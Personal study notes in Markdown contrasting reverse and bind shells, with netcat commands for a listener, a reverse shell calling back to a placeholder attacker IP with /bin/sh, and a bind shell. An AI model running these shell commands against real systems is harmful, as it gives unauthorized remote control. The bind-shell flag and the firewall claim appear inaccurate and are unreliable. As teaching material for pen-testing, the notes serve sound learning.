 
# Reverse Shells vs. Bind Shells
Shells are just a way to gain and maintain access to a target machine. The most common type of shell is a [reverse shell](/cybersecurity/TTPs/exploitation/rev-shell.md) in which the victim machine connects back to us. A common tool used to accomplish rev-shells is *[Netcat](/cybersecurity/tools/netcat.md)*.
## Rev Shells
In order for rev shells to work, the attacking device needs to be listening on a specific port for the connection. In Netcat we can tell our device to listen on a chosen port with the command: `nc -lvp 4444`.
- `-l` for listen
- `-v` for verbose
- `-p` for port
With this command, we're telling Netcat to listen on port 4444 of our machine.
### On the target:
To get the target to connect to our listener, we have to send execute a command on the target to make the connection. For example: if the target *has netcat installed* (or we've some how gotten netcat onto the target machine) we can use it to make a connection back to our machine.

The command on the target in this case would look something like this:
```bash
nc <attacking IP> 4444 -e /bin/sh
```
In this command, nc on the target device creates a *[TCP connection](/networking/protocols/TCP.md)* back to the attacking IP, and executing a shell (`/bin/bash`) using the `-e` flag.
## Bind Shells
[Bind shells](/cybersecurity/TTPs/exploitation/bind-shell.md) are essentially *the reverse of rev shells.* In bind shells, we *open a port on the target for listening* and make the TCP connection to that address from the attacker.

The shell execution *is still from the target's device*:
```bash
# Attacking command (example)
nc <target IP> 4444
# Target command (ex)
nc -lvp 4444 -b /bin/bash
```
Bind shells are more commonly used during *external pen-tests* b/c it's easier to make the connection to the target (due to firewalls and other factors complicating external network access).

> [!My previous notes (linked in text)]
> - [Rev Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/rev-shell.md) 
> - [Netcat](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/netcat.md)
> - [TCP](https://github.com/TrshPuppy/obsidian-notes/tree/main/networking/protocols/TCP.md)
> - [Bind Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/bind-shell.md) 
> - [blank](https://github.com/TrshPuppy/obsidian-notes/tree/main/)